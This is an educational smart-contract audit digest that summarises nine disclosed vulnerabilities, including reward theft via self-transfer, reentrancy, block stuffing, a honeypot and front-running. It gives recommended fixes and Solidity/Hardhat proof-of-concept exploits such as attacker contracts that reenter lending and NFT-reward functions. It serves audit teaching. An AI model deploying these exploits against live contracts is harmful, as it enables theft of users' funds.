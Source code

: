 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-02-anyone-can-steal-all-distributed-rewards) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>

## 2. [Medium] Inability to withdraw funds for certain users due to whenNotPaused modifier in RateLimitedMinter

### EmergencyWithdraw for paused protocol

- Summary: The GUARDIAN role is meant to freeze new protocol usage but allow fund withdrawals. However, the whenNotPaused modifier in the RateLimitedMinter.mint() function prevents users from withdrawing funds if they have CREDIT tokens staked with pending guild rewards. This occurs because the SurplusGuildMinter.unstake() function, called during withdrawal, tries to mint rewards through RateLimitedMinter.mint() by getRewards(), which fails if the protocol is paused.

- Impact & Recommendation: Introduce emergencyWithdraw for users to withdraw funds, excluding rewards when the protocol is paused.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-02-inability-to-withdraw-funds-for-certain-users-due-to-whennotpaused-modifier-in-ratelimitedminter) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function unstake(address term, uint256 amount) external {
        // apply pending rewards
        (, UserStake memory userStake, bool slashed) = getRewards(
            msg.sender,
            term
        );
    ...


    function getRewards(
        address user,
        address term
    )
        public
        returns (
            uint256 lastGaugeLoss, // GuildToken.lastGaugeLoss(term)
            UserStake memory userStake, // stake state after execution of getRewards()
            bool slashed // true if the user has been slashed
        )
    {
    ...

                // forward rewards to user
            if (guildReward != 0) {
                RateLimitedMinter(rlgm).mint(user, guildReward);
                emit GuildReward(block.timestamp, user, guildReward);
            }
    ...

    function mint(
        address to,
        uint256 amount
    ) external onlyCoreRole(role) whenNotPaused {
        _depleteBuffer(amount); /// check and effects
        IERC20Mintable(token).mint(to, amount); /// interactions
    }


  ```

  </details>

## 3. [Medium] Auction manipulation by block stuffing and reverting on ERC-777 hooks

### Block stuffing attack on the auction

- Summary: A low immutable auction duration set in the deployment script can enable profitable block stuffing attacks on desired Layer 2 (L2) chains. The attacker borrows a loan to receive credit tokens and deposit collateral into the protocol. After the first partial duration, the attacker fails to repay the loan and initiates an auction. The attacker exploits the system by preventing bids until the midpoint, reducing costs, then begins block stuffing to acquire collateral by less credit tokens. Ultimately, the attacker may acquire almost the full loan amount, surpassing the gas cost for block stuffing.

- Impact & Recommendation: The attacker can manipulate the auction to acquire full collateral for almost zero credit tokens, resulting in loss for all stakers on the term. Increasing auction duration and implementing fixes to prevent bad debt from collateral token blacklisting can mitigate such attacks and prevent total loss of stake for lenders.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-16-auction-manipulation-by-block-stuffing-and-reverting-on-erc-777-hooks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function bid(bytes32 loanId) external {
        ...
        LendingTerm(_lendingTerm).onBid(
            loanId,
            msg.sender,
            auctions[loanId].collateralAmount - collateralReceived, // collateralToBorrower
            collateralReceived, // collateralToBidder
            creditAsked // creditFromBidder
        );
        ...
    }
    function onBid(
        bytes32 loanId,
        address bidder,
        uint256 collateralToBorrower,
        uint256 collateralToBidder,
        uint256 creditFromBidder
    ) external {
        ...
        int256 pnl;
        uint256 interest;
        if (creditFromBidder >= principal) {
            interest = creditFromBidder - principal;
            pnl = int256(interest);
        } else {
            pnl = int256(creditFromBidder) - int256(principal);
            principal = creditFromBidder;
            require(
                collateralToBorrower == 0,
                "LendingTerm: invalid collateral movement"
            );
        }
        ...
        // handle profit & losses
        if (pnl != 0) {
            // forward profit, if any
            if (interest != 0) {
                CreditToken(refs.creditToken).transfer(
                    refs.profitManager,
                    interest
                );
            }
            ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
        }
        ...
    }
    function notifyPnL(
        address gauge,
        int256 amount
    ) external onlyCoreRole(CoreRoles.GAUGE_PNL_NOTIFIER) {
        ...
        // handling loss
        if (amount < 0) {
            uint256 loss = uint256(-amount);
            // save gauge loss
            GuildToken(guild).notifyGaugeLoss(gauge);
            // deplete the term surplus buffer, if any, and
            // donate its content to the general surplus buffer
            if (_termSurplusBuffer != 0) {
                termSurplusBuffer[gauge] = 0;
                emit TermSurplusBufferUpdate(block.timestamp, gauge, 0);
                _surplusBuffer += _termSurplusBuffer;
            }
            if (loss < _surplusBuffer) {
                // deplete the surplus buffer
                surplusBuffer = _surplusBuffer - loss;
                emit SurplusBufferUpdate(
                    block.timestamp,
                    _surplusBuffer - loss
                );
                CreditToken(_credit).burn(loss);
            }
        } ...
    }
    function notifyGaugeLoss(address gauge) external {
        require(msg.sender == profitManager, "UNAUTHORIZED");
        // save gauge loss
        lastGaugeLoss[gauge] = block.timestamp;
        emit GaugeLoss(gauge, block.timestamp);
    }
    /// @notice apply a loss that occurred in a given gauge
    /// anyone can apply the loss on behalf of anyone else
    function applyGaugeLoss(address gauge, address who) external {
        // check preconditions
        uint256 _lastGaugeLoss = lastGaugeLoss[gauge];
        uint256 _lastGaugeLossApplied = lastGaugeLossApplied[gauge][who];
        require(
            _lastGaugeLoss != 0 && _lastGaugeLossApplied < _lastGaugeLoss,
            "GuildToken: no loss to apply"
        );
        // read user weight allocated to the lossy gauge
        uint256 _userGaugeWeight = getUserGaugeWeight[who][gauge];
        // remove gauge weight allocation
        lastGaugeLossApplied[gauge][who] = block.timestamp;
        _decrementGaugeWeight(who, gauge, _userGaugeWeight);
        if (!_deprecatedGauges.contains(gauge)) {
            totalTypeWeight[gaugeType[gauge]] -= _userGaugeWeight;
            totalWeight -= _userGaugeWeight;
        }
        // apply loss
        _burn(who, uint256(_userGaugeWeight));
        emit GaugeLossApply(
            gauge,
            who,
            uint256(_userGaugeWeight),
            block.timestamp
        );
    }

  ```

  </details>

## 4. [High] Exploitation of the receive Function to Steal Funds

### Reentrancy by receive function

- Summary: The contract has a reentrancy vulnerability due to a flaw in its guard mechanism. Attackers can reset the guard using a receive function, allowing them to execute unauthorized withdrawals. They can deposit ETH, borrows some, then initiates a withdrawal, resetting the guard to pay off their own loan and withdraw additional funds.

- Impact & Recommendation: The vulnerability enables unauthorized fund withdrawals from the contract. The recommendation is to add a reentrancy check to the \_sendValue function to prevent exploitation, without disrupting transfers from the WETH address.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-01-exploitation-of-the-receive-function-to-steal-funds) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    // import ContractA
    import "./ContractA.sol";
    // import MockErc20
    import "./MockContracts/MockErc20.sol";
    contract WiseLendingShutdownTest is Test {
        ...
        ContractA public contractA;
        function _deployNewWiseLending(bool _mainnetFork) internal {
            ...
            contractA = new ContractA(address(FEE_MANAGER_INSTANCE), payable(address(LENDING_INSTANCE)));
            ...
        }
        function testExploitReentrancy() public {
            uint256 depositValue = 10 ether;
            uint256 borrowAmount = 2 ether;
            vm.deal(address(contractA), 2 ether);
            ORACLE_HUB_INSTANCE.setHeartBeat(WETH_ADDRESS, 100 days);
            POSITION_NFTS_INSTANCE.mintPosition();
            uint256 nftId = POSITION_NFTS_INSTANCE.tokenOfOwnerByIndex(address(this), 0);
            LENDING_INSTANCE.depositExactAmountETH{value: depositValue}(nftId);
            LENDING_INSTANCE.borrowExactAmountETH(nftId, borrowAmount);
            vm.prank(address(LENDING_INSTANCE));
            MockErc20(WETH_ADDRESS).transfer(address(FEE_MANAGER_INSTANCE), 1 ether);
            // check contractA balance
            uint ethBalanceStart = address(contractA).balance;
            uint wethBalanceStart = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceStart = ethBalanceStart + wethBalanceStart;
            console.log("totalBalanceStart", totalBalanceStart);
            // deposit using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.depositExactAmountETHMint{value: 2 ether}();
            vm.stopPrank();
        FEE_MANAGER_INSTANCE._increaseFeeTokens(WETH_ADDRESS, 1 ether);

            // withdraw weth using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmount(2, WETH_ADDRESS, 1 ether);
            vm.stopPrank();
            // approve feemanager for 1 weth from contractA
            vm.startPrank(address(contractA));
            MockErc20(WETH_ADDRESS).approve(address(FEE_MANAGER_INSTANCE), 1 ether);
            vm.stopPrank();
            // borrow using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.borrowExactAmount(2,  WETH_ADDRESS, 0.5 ether);
            vm.stopPrank();
            // Payback amount
            //499537556593483218
            // withdraw using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmountETH(2, 0.99 ether);
            vm.stopPrank();
            // check contractA balance
            uint ethBalanceAfter = address(contractA).balance;
            uint wethBalanceAfter = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceAfter = ethBalanceAfter + wethBalanceAfter;
            console.log("totalBalanceAfter", totalBalanceAfter);
            uint diff = totalBalanceAfter - totalBalanceStart;
            assertEq(diff > 5e17, true, "ContractA profit greater than 0.5 eth");
        }
    // SPDX-License-Identifier: -- WISE --
    pragma solidity =0.8.24;
    // import lending and fees contracts
    import "./WiseLending.sol";
    import "./FeeManager/FeeManager.sol";
    contract ContractA {
        address public feesContract;
        address payable public lendingContract;
        address constant WETH_ADDRESS = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        constructor(address _feesContract, address payable _lendingContract) payable {
            feesContract = _feesContract;
            lendingContract = _lendingContract;
        }
        fallback() external payable {
            if (msg.sender == lendingContract) {
                // send lending contract 0.01 eth to reset reentrancy flag
                (bool sent, bytes memory data) = lendingContract.call{value: 0.01 ether}("");
                //paybackBadDebtForToken
                FeeManager(feesContract).paybackBadDebtForToken(2, WETH_ADDRESS, WETH_ADDRESS, 499537556593483218);
            }
        }
    }


  ```

  </details>

## 5. [High] Player can mint more fighter NFTs during claim of rewards by leveraging reentrancy on the claimRewards() function

### Reentrancy by roundId

- Summary: A reentrancy vulnerability in the `claimRewards` function allows a malicious user to mint more fighter NFTs than they are entitled to. By using a smart contract, a user can repeatedly reenter the function during the reward claim process, resulting in excessive minting of NFTs stems from the `roundId`.
- Impact & Recommendation: Use a `nonReentrant` modifier for the `claimRewards` function.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-ai-arena#h-08-player-can-mint-more-fighter-nfts-during-claim-of-rewards-by-leveraging-reentrancy-on-the-claimrewards-function) & [Report](https://code4rena.com/reports/2024-02-ai-arena)

  <details><summary>POC</summary>

  ```solidity
    import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
    contract Attack is IERC721Receiver {

        address owner;
        uint256 tickets = 0;
        MergingPool mergingPool;
        FighterFarm fighterFarm;
        constructor(address mergingPool_, address fighterFarm_) {
            mergingPool = MergingPool(mergingPool_);
            fighterFarm = FighterFarm(fighterFarm_);
            owner = msg.sender;
        }
        function reenter() internal {
            ++tickets;
            if (tickets < 100) {
                (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
                mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
            }
        }
        function onERC721Received(address, address, uint256 tokenId, bytes calldata) public returns (bytes4) {
            reenter();
            return IERC721Receiver.onERC721Received.selector;
        }
        function attack() public {
            (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
            mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        }
        function setInformation() public pure returns (string[] memory, string[] memory, uint256[2][] memory) {
            string[] memory _modelURIs = new string[](3);
            _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[2] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            string[] memory _modelTypes = new string[](3);
            _modelTypes[0] = "original";
            _modelTypes[1] = "original";
            _modelTypes[2] = "original";
            uint256[2][] memory _customAttributes = new uint256[2][](3);
            _customAttributes[0][0] = uint256(1);
            _customAttributes[0][1] = uint256(80);
            _customAttributes[1][0] = uint256(1);
            _customAttributes[1][1] = uint256(80);
            _customAttributes[2][0] = uint256(1);
            _customAttributes[2][1] = uint256(80);
            return (_modelURIs, _modelTypes, _customAttributes);
        }
    }

  ```

  ```solidity
      function testReenterPOC() public {
        address Bob = makeAddr("Bob");
        Attack attacker = new Attack(address(_mergingPoolContract), address(_fighterFarmContract));

        _mintFromMergingPool(address(attacker));
        _mintFromMergingPool(Bob);
        assertEq(_fighterFarmContract.ownerOf(0), address(attacker));
        assertEq(_fighterFarmContract.ownerOf(1), Bob);
        uint256[] memory _winners = new uint256[](2);
        _winners[0] = 0;
        _winners[1] = 1;
         // winners of roundId 0 are picked
        _mergingPoolContract.pickWinner(_winners);
        assertEq(_mergingPoolContract.isSelectionComplete(0), true);
        assertEq(_mergingPoolContract.winnerAddresses(0, 0) == address(attacker), true);
        // winner matches ownerOf tokenId
        assertEq(_mergingPoolContract.winnerAddresses(0, 1) == Bob, true);
        string[] memory _modelURIs = new string[](2);
        _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
        _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

        string[] memory _modelTypes = new string[](2);
        _modelTypes[0] = "original";
        _modelTypes[1] = "original";
        uint256[2][] memory _customAttributes = new uint256[2][](2);
        _customAttributes[0][0] = uint256(1);
        _customAttributes[0][1] = uint256(80);
        _customAttributes[1][0] = uint256(1);
        _customAttributes[1][1] = uint256(80);
        // winners of roundId 1 are picked
        uint256 numberOfRounds = _mergingPoolContract.roundId();
        console.log("Number of Rounds: ", numberOfRounds);
        _mergingPoolContract.pickWinner(_winners);
        _mergingPoolContract.pickWinner(_winners);
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address pre-claim rewards: ", _fighterFarmContract.balanceOf(address(attacker)));
        // console.log("Balance of Bob address pre-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
        uint256 numRewardsForAttacker = _mergingPoolContract.getUnclaimedRewards(address(attacker));

        // uint256 numRewardsForBob = _mergingPoolContract.getUnclaimedRewards(Bob);
        console.log("------------------------------------------------------");
        console.log("Number of unclaimed rewards attacker (Alice) address has a claim to: ", numRewardsForAttacker);
        // console.log("Number of unclaimed rewards Bob address has a claim to: ", numRewardsForBob);

        // vm.prank(Bob);
        // _mergingPoolContract.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        vm.prank(address(attacker));
        attacker.attack();
        uint256 balanceOfAttackerPostClaim = _fighterFarmContract.balanceOf(address(attacker));
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address post-claim rewards: ", balanceOfAttackerPostClaim);
        // console.log("Balance of Bob address post-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
    }

  ```

  </details>

## 6.[Medium] Potential arbitrage opportunity in the xRenzoDeposit L2 contract

### Arbitrage

- Summary: In the xRenzoDeposit L2 contract, the sendPrice function updates the price of ezETH to ETH, which is then received by other contracts on Layer 2 (L2). However, a potential arbitrage opportunity exists where a user can monitor the L1 mempool for the sendPrice function call, observe the new price, and exploit it by minting xezETH on L2 before the price adjustment takes effect.

- Impact & Recommendation: Implementing two fees for L2 deposits may mitigate this issue. Additionally, as ezETH tends to be stable, significant price fluctuations are less common. Continuous monitoring and adjusting the update frequency may be necessary to prevent exploitation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-renzo#m-10-potential-arbitrage-opportunity-in-the-xrenzodeposit-l2-contract) & [Report](https://code4rena.com/reports/2024-04-renzo)

  <details><summary>POC</summary>

  ```solidity
      /**
     * @notice  Exposes the price via getRate()
     * @dev     This is required for a balancer pool to get the price of ezETH
     * @return  uint256  .
     */
    function getRate() external view override returns (uint256) {
        return lastPrice;
    }

  ```

  </details>

## 7.[Medium] Malicious Actor Can Steal Deposits of Tokens With Sender Hooks or Cause Lock Of Funds

### Reentrancy hooks

- Summary: The depositERC20 function is vulnerable to reentrancy attacks with tokens that implement sender hooks. An attacker can exploit this by reentering the function during token transfer, depositing tokens multiple times without triggering the reentrancy check. This results in an inflated deposited balance. Consequently, the attacker could withdraw more tokens than deposited, or the contract might lock funds if it lacks sufficient tokens to cover the inflated balance.

- Impact & Recommendation: To prevent this, it is recommended to add reentrancy guards to both the depositERC20 and depositETH functions.
  <br> 🐬: [Source](https://blog.openzeppelin.com/scroll-batch-token-bridge-audit#malicious-actor-can-steal-deposits-of-tokens-with-sender-hooks-or-cause-lock-of-funds) & [Report](https://blog.openzeppelin.com/scroll-batch-token-bridge-audit)

<details><summary>POC</summary>

```solidity
    }

    /// @notice Deposit ETH.
    function depositETH() external payable nonReentrant {
        // no safe cast check here, since no one has so much ETH yet.
        _deposit(address(0), _msgSender(), uint96(msg.value));
    }
	@@ -218,7 +218,7 @@ contract L1BatchBridgeGateway is AccessControlEnumerableUpgradeable, ReentrancyG
    ///
    /// @param token The address of token.
    /// @param amount The amount of token to deposit. We use type `uint96`, since it is enough for most of the major tokens.
    function depositERC20(address token, uint96 amount) external nonReentrant {
        if (token == address(0)) revert ErrorIncorrectMethodForETHDeposit();

        // common practice to handle fee on transfer token.
	@@ -345,7 +345,7 @@ contract L1BatchBridgeGateway is AccessControlEnumerableUpgradeable, ReentrancyG
        address token,
        address sender,
        uint96 amount
    ) internal {
        BatchConfig memory cachedBatchConfig = configs[token];
        TokenState memory cachedTokenState = tokens[token];
        _tryFinalizeCurrentBatch(token, cachedBatchConfig, cachedTokenState);

```

</details>

## 8.[High] Attack to make CurveSubject to be a HoneyPot

### Honeypot

- Summary: A vulnerability in the Curves contract allows malicious creators to turn any CurveSubject into a honeypot, where users can buy but cannot sell tokens. This is due to the referralFeeDestination call always being executed, even if the referral fee is zero. Malicious creators can set a custom referralFeeDestination contract that rejects sell transactions. This contract, EvilReferralFeeReceiver, blocks sells by reverting transactions if the user's token balance decreases.

- Impact & Recommendation: It is recommended to use Solady’s forceSafeTransferETH() for safer ETH transfers. This issue is confirmed and deemed high severity as it requires significant effort to prevent scammers from exploiting it.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-curves#h-03-attack-to-make-curvesubject-to-be-a-honeypot) & [Report](https://code4rena.com/reports/2024-01-curves)

<details><summary>POC</summary>

```solidity
import { expect, use } from "chai";
import { solidity } from "ethereum-waffle";
use(solidity);
import { SignerWithAddress } from "@nomiclabs/hardhat-ethers/signers";
//@ts-ignore
import { ethers } from "hardhat";
import { type Curves } from "../contracts/types";
import { buyToken } from "../tools/test.helpers";
import { deployCurveContracts } from "./test.helpers";
describe("Make Curve Subject To Be A Honey Pot test", () => {
  let testContract;
  let evilReferralFeeReceiver;
  let owner: SignerWithAddress, evilSubjectCreator: SignerWithAddress,
      alice: SignerWithAddress, bob: SignerWithAddress, others: SignerWithAddress[];
  beforeEach(async () => {
    testContract = await deployCurveContracts();
    [owner, evilSubjectCreator, alice, bob, others] = await ethers.getSigners();
    const EvilReferralFeeReceiver = await ethers.getContractFactory("EvilReferralFeeReceiver");
    evilReferralFeeReceiver = await EvilReferralFeeReceiver.connect(evilSubjectCreator).deploy();
  });
  it("While 'HONEY POT' mode enabled, users can only buy, but can't sell any Curve token ", async () => {
    // 1. The evil create a subject and set a normal referral fee receiver
    await testContract.connect(evilSubjectCreator).mint(evilSubjectCreator.address);
    await testContract.connect(evilSubjectCreator).setReferralFeeDestination(
      evilSubjectCreator.address, evilSubjectCreator.address
    );
    // 2. The evil buy enough tokens at low price
    await buyToken(testContract, evilSubjectCreator, evilSubjectCreator, 1);
    await buyToken(testContract, evilSubjectCreator, evilSubjectCreator, 10);
    // 3. victims buy or sell tokens normally
    await buyToken(testContract, evilSubjectCreator, alice, 10);
    await testContract.connect(alice).sellCurvesToken(evilSubjectCreator.address, 5);
    await buyToken(testContract, evilSubjectCreator, bob, 10);
    await testContract.connect(bob).sellCurvesToken(evilSubjectCreator.address, 5);
    // 4. at some time point, the evil enables 'HONEY POT' mode by updating the referral fee receiver
    await testContract.connect(evilSubjectCreator).setReferralFeeDestination(
      evilSubjectCreator.address, evilReferralFeeReceiver.address
    );
    await evilReferralFeeReceiver.connect(evilSubjectCreator).setCurvesAndSubject(
      testContract.address, evilSubjectCreator.address
    );
    await evilReferralFeeReceiver.connect(evilSubjectCreator).updateBalances(
      [alice.address, bob.address]
    );
    // 5. now, victims can buy, but can't sell
    await buyToken(testContract, evilSubjectCreator, alice, 1);
    let tx = testContract.connect(alice).sellCurvesToken(evilSubjectCreator.address, 1);
    expect(tx).to.revertedWith("CannotSendFunds()");
    // 6. but the evil can sell tokens normally, of course at a higher price than buy and make profit
    await  evilReferralFeeReceiver.connect(evilSubjectCreator).setAllowList(
      evilSubjectCreator.address, true
    );
    testContract.connect(evilSubjectCreator).sellCurvesToken(evilSubjectCreator.address, 11);
  });
});

```

</details>

## 9.[High] The attackers front-running repayloans so that the debt cannot be repaid

### frontrun on loan operations

- Summary: Attackers can exploit a front-running attack on the repayLoan function, causing the debt repayment to fail and leading to the liquidation of the borrower’s collateral. An attacker can front-run the repayLoan call by executing mergeTranches or addNewTranche, which alters the loan ID in \_loans. This makes it impossible for the borrower to repay their loan, potentially causing collateral to be liquidated.

- Impact & Recommendation: Avoid deleting or updating the \_loanId in a way that affects ongoing loan operations. Alternatively, consider restricting functions that modify loan IDs near the loan's expiry to prevent such attacks.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-gondi#h-010-The-attackers-front-running-repayloans-so-that-the-debt-cannot-be-repaid) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity
    function repayLoan(LoanRepaymentData calldata _repaymentData) external override nonReentrant {
        uint256 loanId = _repaymentData.data.loanId;
        Loan calldata loan = _repaymentData.loan;
        .....
@>      _baseLoanChecks(loanId, loan);
        .....
    }

    function _baseLoanChecks(uint256 _loanId, Loan memory _loan) private view {
        if (_loan.hash() != _loans[_loanId]) {
            revert InvalidLoanError(_loanId);
        }
        if (_loan.startTime + _loan.duration < block.timestamp) {
            revert LoanExpiredError();
        }
    }

```

</details>
